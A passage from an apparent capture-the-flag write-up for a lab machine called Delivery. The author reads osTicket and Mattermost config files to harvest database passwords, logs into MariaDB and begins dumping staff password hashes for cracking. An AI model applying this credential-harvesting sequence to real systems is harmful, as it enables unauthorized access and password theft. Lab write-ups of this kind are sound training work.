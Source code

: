 Hunted credentials to login within mysql:

```bash
maildeliverer@Delivery:/var/www/osticket$ cat ./upload/include/ost-config.php
...
# Encrypt/Decrypt secret key - randomly generated during installation.
define('SECRET_SALT','nP8uygzdkzXRLJzYUmdmLDEqDSq5bGk3');

#Default admin email. Used only on db connection issues and related alerts.
define('ADMIN_EMAIL','maildeliverer@delivery.htb');

# Database Options
# ---------------------------------------------------
# Mysql Login info
define('DBTYPE','mysql');
define('DBHOST','localhost');
define('DBNAME','osticket');
define('DBUSER','ost_user');
define('DBPASS','!H3lpD3sk123!');

# Table prefix
define('TABLE_PREFIX','ost_');
...

maildeliverer@Delivery:/opt/mattermost/config$ cat config.json | grep -i sql -C5
        "DesktopLatestVersion": "",
        "DesktopMinVersion": "",
        "IosLatestVersion": "",
        "IosMinVersion": ""
    },
    "SqlSettings": {
        "DriverName": "mysql",
        "DataSource": "mmuser:Crack_The_MM_Admin_PW@tcp(127.0.0.1:3306)/mattermost?charset=utf8mb4,utf8\u0026readTimeout=30s\u0026writeTimeout=30s",
        "DataSourceReplicas": [],
        "DataSourceSearchReplicas": [],
        "MaxIdleConns": 20,
        "ConnMaxLifetimeMilliseconds": 3600000,
```

## Dumping and cracking MySQL hashes using custom rules

Logged within mysql using hunted credentials and extracted password hashes:

```bash
maildeliverer@Delivery:/var/www/osticket$ mysql -u ost_user -p -D osticket
Enter password:
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 108
Server version: 10.3.27-MariaDB-0+deb10u1 Debian 10

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [osticket]>
...
MariaDB [osticket]> select username,passwd,email,isadmin from ost_staff;
+---------------+--------------------------------------------------------------+----------------------------+---------+
| username      | passwd                                                       | email                      | isadmin |
```